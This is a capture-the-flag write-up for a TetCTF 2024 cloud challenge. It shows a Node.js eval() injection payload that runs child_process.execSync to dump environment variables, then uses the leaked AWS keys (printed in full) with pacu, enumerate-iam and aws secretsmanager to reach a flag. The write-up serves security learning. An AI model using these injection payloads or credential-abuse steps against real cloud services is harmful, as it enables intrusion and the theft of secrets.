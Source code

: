 # Challenge link
URL:      [https://huk5xbypcc.execute-api.ap-southeast-2.amazonaws.com/dev/vulnerable?vulnerable="Welcome to TetCTF!"](https://huk5xbypcc.execute-api.ap-southeast-2.amazonaws.com/dev/vulnerable?vulnerable="Welcome_to_TetCTF!") 

(maybe the server was shut down)

# Challenge description
Let’s see what you can do with this vulnerable API GW endpoint.
Note: AWS Account is not needed for this challenge

# Challenge source file
Blackbox

# Catergory
Web/cloud service exploitation

# Difficulty
Hard

# Author
Chi Tran (Twitter: @imspicynoodles) (Discord: iam.chi)

# Approach
- When I connected to the website, all I saw was just a simple page:
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/7da8df0c-c3ba-491b-8cc4-a4840e944830)

- There is a parameter on the URL. I tried to modify it:
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/b1d4e2c7-166a-4264-b4d6-e73e1e497257)

- The message is "Evaluated User Input" so I think they used *eval()* in the backend, so we can gain RCE. After a while, I realized that they use Javascript for the backend. This is the payload:
  ```
  process.env
  ```
  Or you can use this to read other things on the server:
  ```
  require('child_process').execSync('env', {encoding: 'UTF-8'}).trim().split('\n')
  ```
  (I switched to Burpsuite for convenient)
  
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/a18acd23-cb01-450f-9b90-70008e157fc7)

- The challenge is hosted on AWS service and I see some interesting thing like AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY so I search for it on google. There are a few post I found it interesting:
  
  [https://blog.appsecco.com/hacking-aws-lambda-for-security-fun-and-profit-c140426b6167](https://blog.appsecco.com/hacking-aws-lambda-for-security-fun-and-profit-c140426b6167)
  
  [https://www.linkedin.com/pulse/exploiting-aws-lambda-gain-rce-access-s3-buckets-arav-budhiraja](https://www.linkedin.com/pulse/exploiting-aws-lambda-gain-rce-access-s3-buckets-arav-budhiraja)
  
  [AWS exploit cheatsheet](https://github.com/pop3ret/AWSome-Pentesting/blob/main/AWSome-Pentesting-Cheatsheet.md)
  
- I knew that this website use AWS lambda service. Usually, when deployed, AWS cloud saves information about itself in the Linux server as environment variables, including sensitive things like sessionID, secret key, ... I had all of them, the next mission is exploiting the AWS cloud.

# Problem-solving
  ## Find a priviledged account 
  - I install AWS CLI on my WSL and use those three token:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/14c77bfa-8d67-4954-9103-23b71b7672cb)

  - Set environment variables (AWS cloud service's requirement to access an user account):
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d11e24ef-5239-4656-88e4-ee895d46668f)

  - Now it's time to check if the account is set. I use this AWS command:
    ```
    aws sts get-caller-identity
    ```
    (It has the same meaning as *whoami* in Linux)
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/025f4254-4efd-40ca-8fe5-6d5a3d012bf6)

  - AWS S3 is a service that used to storing data of the cloud server. After reaading the cheatsheet (link above), I tried a s3 command:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/c714633d-7834-41b1-9652-5f22fd296434)

  - Maybe this account has restricted priviledge. Since AWS has so many service and command, I used this tool to bruteforce account's priviledge:
    
    [Source code Github](https://github.com/RhinoSecurityLabs/pacu)
    
    Command to install:
    ```
    pip3 install -U pacu
    ```

  - Use pacu to bruteforce priviledge:
    Create new attack session:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/a30441b5-07e7-4271-9017-377b2787fd6d)

    Use *ls* to list all the command of the tool. In this scenario, I use *iam__bruteforce_permissions*:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/e82956b2-b214-44de-8c55-6faab1d2e1c2)

    Type Y to accept, and wait for it.

  - After a while, the bruteforce result tell me that this account has very stricted priviledge and cannot do anything more:
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d1067780-a9f7-4072-b534-27db5a3aebb5)
    (some not interesting commands)

  - To ensure that, I also use another tool:
    [enumerate-iam](https://github.com/andresriancho/enumerate-iam)

  - And it didn't find anything else:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d3cc96b9-d135-49b2-bbd8-99101a30a296)

  - This is very tricky, so I have to read again all the documents and information I've retrieved. But there is a thing:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/565ce8d0-4897-4797-9eb4-1966222361d4)

  - Other writeups do not have this token. This is so weird, so I asked a cloud engineer about this. He said that the token I used is for execution role but it doesn't have any priviledge. He also said that AWS lambda can ignore that token and use the pre-defined token saved in the environment variable. So, that means the ENV_ tokens above are the correct tokens.

  - Re-setup those token:
    ```
    unset AWS_SESSION_TOKEN (this session token is for execution role that do not have any priviledge, so I have to remove it)
    export AWS_ACCESS_KEY_ID='AKIAX473H4JB76WRTYPI' (replace with the value of ENV_ACCESS_KEY token)
    export AWS_SECRET_ACCESS_KEY='f6N48oKwKNkmS6xVJ8ZYOOj0FB/zLb/QfXCWWqyX' (replace with the value of ENV_SECRET_ACCESS_KEY token)
    ```
  - Then re run this command to check if the setup is done:
    ```
    aws sts get-caller-identity
    ```
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/0d4505b5-b6c0-4fd8-b272-e738410dc517)

  - HURRAYYYYYYY!

  ## Bruteforce priviledge
  - After gaining access to secret-user, I should check what command can this user do. I use the enumerate-iam tool for this purpose because it's faster:
    ```
    python3 enumerate-iam.py --access-key AKIAX473H4JB76WRTYPI --secret-key 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 --region ap-southeast-2
    ```
    You can find region in AWS leaked information above.

    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/173c95e2-a98e-47d5-9328-8d8a9beaa273)

  - The result give me a suspicious command: *secretsmanager.list_secrets()*. I asked chatGPT about it and get the correct syntax:
    ```
    aws secretsmanager list-secrets
    ```
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/4d29e816-2502-4bc1-a4ad-8222d5013f2c)

  - Now I use this command to read the secret:
    ```
    aws secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:ap-southeast-2:543303393859:secret:prod/TetCTF/Flag-gnvT27
    ```

    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/193788ae-1db1-407f-9b41-1a374fb5df9f)

  - Flag: TetCTF{B0unTy_$$$-50_for_B3ginNeR_2a3287f970cd8837b91f4f7472c5541a}
